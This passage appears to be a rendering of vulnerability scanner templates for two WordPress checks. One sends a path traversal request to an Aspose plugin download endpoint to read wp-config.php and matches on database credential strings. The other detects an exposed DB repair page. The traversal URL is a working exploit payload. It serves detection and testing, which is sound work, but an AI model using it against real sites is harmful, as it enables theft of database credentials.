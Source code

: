 ### URL

- {{BaseURL}}/wp-content/plugins/aspose-importer-exporter/aspose_import_export_download?file=../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# Wordpress DB Repair Exposed

## Description

- Discover enabled Wordpress repair page.
- severity - low
- tags - wordpress,config,fpd

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-admin/maint/repair.php

### Matchers

**Type - word**

- words
  1. \<title>WordPress

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. define
  2. WP_ALLOW_REPAIR
  3. true
- condition - and
- negative - True

---